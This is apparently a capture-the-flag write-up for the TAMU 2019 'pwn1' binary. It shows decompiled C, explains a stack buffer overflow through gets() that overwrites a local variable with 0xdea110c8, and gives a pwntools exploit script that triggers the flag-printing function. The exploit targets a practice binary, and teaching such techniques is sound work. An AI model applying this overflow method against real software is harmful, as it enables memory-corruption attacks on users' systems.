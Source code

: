 # TAMU'19: Pwn1

## Challenge Description
This challenge presents a simple **buffer overflow** problem.  
We are given a binary named `pwn1` which asks three questions in sequence:
1. Your name
2. Your quest
3. A secret

If the correct answers are provided for the first two questions, we then have the opportunity to exploit the third question, where the input is handled unsafely using `gets()`.

The goal is to overwrite a specific variable on the stack to trigger the `print_flag()` function, which reads and displays the flag from `flag.txt`.

---

## Ghidra Analysis

### `main` Function (decompiled)
```c
undefined4 main(void) {
    int iVar1;
    char local_43[43];
    int local_18;
    undefined4 local_14;
    undefined1 *local_10;

    local_10 = &stack0x00000004;
    setvbuf(_stdout, (char *)0x2, 0, 0);
    local_14 = 2;
    local_18 = 0;
    puts("Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.");
    puts("What... is your name?");
    fgets(local_43, 0x2b, _stdin);
    iVar1 = strcmp(local_43, "Sir Lancelot of Camelot\n");
    if (iVar1 != 0) {
        puts("I don't know that! Auuuuuuuugh!");
        exit(0);
    }
    puts("What... is your quest?");
    fgets(local_43, 0x2b, _stdin);
    iVar1 = strcmp(local_43, "To seek the Holy Grail.\n");
    if (iVar1 != 0) {
        puts("I don't know that! Auuuuuuuugh!");
        exit(0);
    }
    puts("What... is my secret?");
    gets(local_43);  // VULNERABILITY HERE
    if (local_18 == -0x215eef38) {  // 0xdea110c8
        print_flag();
    } else {
        puts("I don't know that! Auuuuuuuugh!");
    }
    return 0;
}
```

### `print_flag` Function
```c
void print_flag(void) {
    FILE *__fp;
    int iVar1;

    puts("Right. Off you go.");
    __fp = fopen("flag.txt","r");
    while (true) {
        iVar1 = _IO_getc(__fp);
        if ((char)iVar1 == -1) break;
        putchar((int)(char)iVar1);
    }
    putchar(10);
    return;
}
```

---

## Vulnerability
The third input is taken using `gets()`, which does **not** perform bounds checking.  
The buffer `local_43` is only **43 bytes**, and directly after it on the stack is `local_18`.  

By providing **43 padding characters** followed by the target value `0xdea110c8`, we can overwrite `local_18`.  
This satisfies the condition:
```c
if (local_18 == 0xdea110c8)
```
and the program will call `print_flag()`, revealing the flag.

---

## Exploit Development

### Steps
1. Pass the first two checks with correct answers:
   - `"Sir Lancelot of Camelot"`
   - `"To seek the Holy Grail."`
2. Overflow the third input with:
   - 43 bytes of padding (`"A"*43`)
   - 4 bytes for `0xdea110c8` (little-endian)

### Final Payload
```
"A"*43 + p32(0xdea110c8)
```

---

## Final Exploit Code
```python
from pwn import *

# Create the payload
payload = b"A"*43 + p32(0xdea110c8)

# Start the process
p = process("./pwn1")

# Interact with the binary step-by-step
p.recvuntil(b"What... is your name?")
p.sendline(b"Sir Lancelot of Camelot")

p.recvuntil(b"What... is your quest?")
p.sendline(b"To seek the Holy Grail.")

p.recvuntil(b"What... is my secret?")
p.sendline(payload)

# Get interactive shell to see the flag
p.interactive()
```

---

## Demonstration

### Recorded Terminal Session
You can replay the exact exploitation steps using `asciinema`:
```bash
asciinema play pwn1.cast
```

> Uploaded session file: [pwn1.cast](./pwn1.cast)

---

## Flag
Upon running the exploit, the program outputs:
```
Right. Off you go.
flag{example_flag_here}
```

---

## Key Takeaways
- Always check user input bounds to avoid buffer overflows.
- `gets()` is inherently unsafe and should **never** be used.
- Ghidra is a powerful tool for reverse engineering and identifying vulnerable code paths.
Note: for walkthrough go thorugh asciinema .cast file
